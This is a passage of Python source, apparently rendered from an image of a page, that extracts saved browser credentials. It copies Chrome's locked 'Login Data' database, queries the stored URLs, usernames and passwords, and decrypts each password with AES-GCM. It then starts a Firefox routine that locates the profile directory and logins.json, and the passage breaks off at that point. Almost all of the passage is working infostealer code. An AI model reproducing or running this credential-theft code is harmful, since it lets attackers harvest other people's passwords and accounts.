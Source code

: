 ```python
    login_db = os.path.join(user_data, "Default", "Login Data")
    
    # Copy to temp (file is locked)
    temp_db = os.path.join(os.getenv('TEMP'), 'LoginData.db')
    os.system(f'copy "{login_db}" "{temp_db}"')
    
    conn = sqlite3.connect(temp_db)
    cursor = conn.cursor()
    
    cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
    
    credentials = []
    
    for row in cursor.fetchall():
        url = row[0]
        username = row[1]
        encrypted_password = row[2]
        
        # Decrypt password
        try:
            # Remove version prefix
            nonce = encrypted_password[3:15]
            ciphertext = encrypted_password[15:]
            
            cipher = AES.new(key, AES.MODE_GCM, nonce)
            password = cipher.decrypt(ciphertext)[:-16].decode()
            
            credentials.append({
                'url': url,
                'username': username,
                'password': password
            })
        except:
            pass
    
    conn.close()
    os.remove(temp_db)
    
    return credentials
```

#### Firefox Password Extraction
```python
import os
import json
from Crypto.Cipher import DES3
import base64

def get_firefox_passwords():
    """Extract Firefox passwords"""
    
    firefox_path = os.path.expandvars(r"%APPDATA%\Mozilla\Firefox\Profiles")
    
    # Find profile directory
    profiles = [d for d in os.listdir(firefox_path) if d.endswith('.default-release')]
    
    if not profiles:
        return []
    
    profile_path = os.path.join(firefox_path, profiles[0])
    
    # Read logins.json
    logins_file = os.path.join(profile_path, "logins.json")
```
